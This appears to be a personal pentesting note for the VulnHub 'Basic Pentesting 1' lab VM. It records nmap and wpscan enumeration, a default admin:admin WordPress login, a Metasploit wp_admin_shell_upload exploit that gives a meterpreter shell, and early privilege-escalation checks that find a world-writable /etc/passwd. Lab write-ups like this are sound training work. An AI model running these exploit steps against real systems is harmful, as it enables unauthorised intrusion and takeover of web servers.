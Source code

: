 https://www.vulnhub.com/entry/basic-pentesting-1,216/

Difficulty: EASY


---

**S1REN's Template Reference**

\[OS]: Linux 3.2 - 4.14
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.6 
\[USERS]:   
\[CREDENTIALS]:  
http://vtcsec/secret/wp-login.php - admin:admin

---
\[To-Try LIST]:  

21 ftp     ProFTPD 1.3.3c:
- anonynmous:anonymous failed
- searchsploit
![[Pasted image 20250819112711.png]]

80 http    Apache httpd 2.4.18
/secret - WP Site 
/server-status

Later:
SSH 22 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2


---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).


--- 

\[Web Services Enumeration]:   

-  http://192.168.100.6 
- View Page Source - reveals nothing
- No Robots.txt

dirb $URL /usr/share/wordlists/dirb/common.txt  
Found 13

gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/secret
/server-status: You don't have permission to access this resource.

wpscan --url $URL/secret --disable-tls-checks --enumerate p --enumerate t --enumerate u
XML-RPC seems to be enabled: http://192.168.100.6/secret/xmlrpc.php
WordPress readme found: http://192.168.100.6/secret/readme.html
The external WP-Cron seems to be enabled: http://192.168.100.6/secret/wp-cron.php
WordPress version 4.9 identified (Insecure, released on 2017-11-16).
User(s) Identified:admin 

admin is default WP username - try default password "admin" - - Otherwise brute force??
- success


Many Links - don't resolve: can't find the server at vtccsec
Add vtcsec to /etc/hosts
Now it loads properly:
login page available: http://vtcsec/secret/wp-login.php

wpscan - http://vtcsec/secret/wp-login.php

```
msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
```
Set values accordingly:
![[Pasted image 20250819114258.png]]
meterpreter session opened


---


\[OTHER / PRIVILEGE-ESCALATION]:   

``` bash
meterpreter> shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@vtcsec:$ 

```

unix-privesc-check from pentest monkey. 
```
meterpreter> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check
shell
python -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
chmod +x unix-privesc-check
./unix-privesc-check standard | grep WARNING
```

/etc/passwd - world writable
download local -


--- 
Take Away Concepts: 
Tools utilised:
- netdiscover
- nmap
- dirbuster/gobuster
- 


HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
